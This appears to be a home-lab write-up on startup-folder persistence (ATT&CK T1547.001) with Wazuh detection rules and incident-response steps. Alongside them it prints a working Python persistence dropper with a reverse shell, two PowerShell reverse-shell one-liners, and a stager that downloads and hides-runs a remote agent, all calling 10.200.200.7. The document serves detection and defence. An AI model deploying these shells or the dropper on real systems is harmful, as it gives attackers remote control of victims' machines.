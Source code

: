 ```yaml
---
{"dg-publish":true,"permalink":"/mitreattck-analysis/persistence-t1547-001/persistence-t1547-001/","tags":["mitre"]}
---
```


[[MITREATTCKAnalysis/Threat Analysis with ATT&CK\|Threat Analysis with ATT&CK]]
### Summary
---
### Initials
---
- **Atomic Red Team ID**: T1547.001 - Persistence
- **Description**: Using various techniques to maintain access across system restarts, change credentials or any other interruptions, in this experiment a malware that adds a `.bat` file on the public User's startup folder that creates a reverse shell.
- **Challenges Encountered & Solution*:
	- It requires running the script with administrative privilege.
## Analysis
---
File is added in user's public startup directory, one of the symptoms of a persistence, there are many ways to establish persistence one of the ways is modifying the registry or adding files in the task scheduler:

![Pasted image 20240811215835.png](/img/user/images/Pasted%20image%2020240811215835.png)

However the reverse shell or network connection but the command such as `whoami` is detected as well as:

![Pasted image 20240811215850.png](/img/user/images/Pasted%20image%2020240811215850.png)

### WAZUH. rule creation
---
In a normal environment, our clients usually connect to _well-known ports_ such as port 21, 80, 443 but rarely on something like 4444 which is the default port used in metasploit for reverse shells.

We can create blacklist or whitelist depending on the fields extracted in the decoding phase by using Wazuh's Constant Database (CDB).

1. Create a file name `/var/ossec/etc/lists/common-ports` at the manager.
2. Then input the most well-known ports (this should be tailored around the environment for example if organization never uses ssh then remove port 21 from the list) follow the format

```
22:
80:
```

3. Change the permission so Wazuh can detect this file:

```bash
chown wazuh:wazuh common-ports
chmod 660 common-ports
```

4. Navigate and open a text editor to `/var/ossec/etc/ossec.conf` and find the `<ruleset>` section and add the following:

```XML
<list>etc/lists/common-ports</list>
```

Should go something like this:

![Pasted image 20240811215904.png](/img/user/images/Pasted%20image%2020240811215904.png)
7. Add the rules to detect the attack:

```XML
<!-- Abnormal Destination Port Detected -->  
<rule id="102503" level="10">  
  <if_group>sysmon_event3</if_group>  
  <list field="win.eventdata.destinationPort" lookup="not_address_match_key">etc/lists/common-ports</list>  
  <description>Sysmon - Event 3: Network connection to Uncommon Port by $(win.eventdata.image)</description>  
  <group>sysmon_event3,</group>  
</rule>
```

Should look something like this:

![Pasted image 20240811215909.png](/img/user/images/Pasted%20image%2020240811215909.png)
## Incident Response
---
- **Incident identification criteria** - file added to startup folder for either the public or users directory.
- **Investigation steps** - strange process and cmd window popup at start up
- **Containment actions** - disconnect the compromised host
- **Eradication procedures** - remove the file from the startup folder and it's parent image.
- **Recovery steps** - Implemented File Integrity Monitoring with Wazuh to detect changes at start up folders.

```C
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Run file as administrator:

```C
@echo off

:: Check if the script is running as admin

net session >nul 2>&1

if %errorLevel% neq 0 (

    echo Requesting elevation...

    powershell.exe Start-Process "%~0" -Verb RunAs

    exit /b

)

:: Run the Python script

python "C:\Users\lauraArseid\Documents\evil.py"
```

The Malware:

```python
import sys
import os.path
import os,socket,subprocess,threading;


# Get the python path:
python_path = sys.executable

# Get the current directory of where this python executing
current_file_path = path = os.path.abspath(os.path.dirname(__file__))
current_file_path_name = path = os.path.abspath(__file__)

path = 'C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat'

check_file = os.path.isfile(path)

# Revere shgell
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

if not check_file:
    # Write a .bat script to execute on user login
    with open("C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat", "a") as bad_bat:
        bad_bat.write("@echo off\n")
        bad_bat.write(f'python "{current_file_path_name}"')
else:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.200.200.7",4444))

    p=subprocess.Popen(["sh"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

    s2p_thread = threading.Thread(target=s2p, args=[s, p])
    s2p_thread.daemon = True
    s2p_thread.start()

    p2s_thread = threading.Thread(target=p2s, args=[s, p])
    p2s_thread.daemon = True
    p2s_thread.start()

    try:
        p.wait()
    except KeyboardInterrupt:
        s.close()
```

The reverse shell used:

```
$LHOST = "10.200.200.7"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.200.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


```Powershell
$server="http://10.200.200.7:8000";  
$url="$server/test.txt";  
$wc=New-Object System.Net.WebClient;  
$wc.Headers.add("platform","windows");  
$wc.Headers.add("file","sandcat.go");  
$data=$wc.DownloadData($url);  
$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");  
get-process | ? {$_.modules.filename -like "C:\Users\Public\$name.exe"} | stop-process -f;  
rm -force "C:\Users\Public\$name.exe" -ea ignore;  
[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data) | Out-Null;  
Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```


```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
    <!-- Rules for Windows systems -->
    <rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
  <rule id="100200" level="7">
    <if_sid>550</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File modified in user startup directory.</description>
  </rule>
  <rule id="100201" level="7">
    <if_sid>554</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File added to user startup directory.</description>
  </rule>
  
<rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

![Pasted image 20240811215918.png](/img/user/images/Pasted%20image%2020240811215918.png)


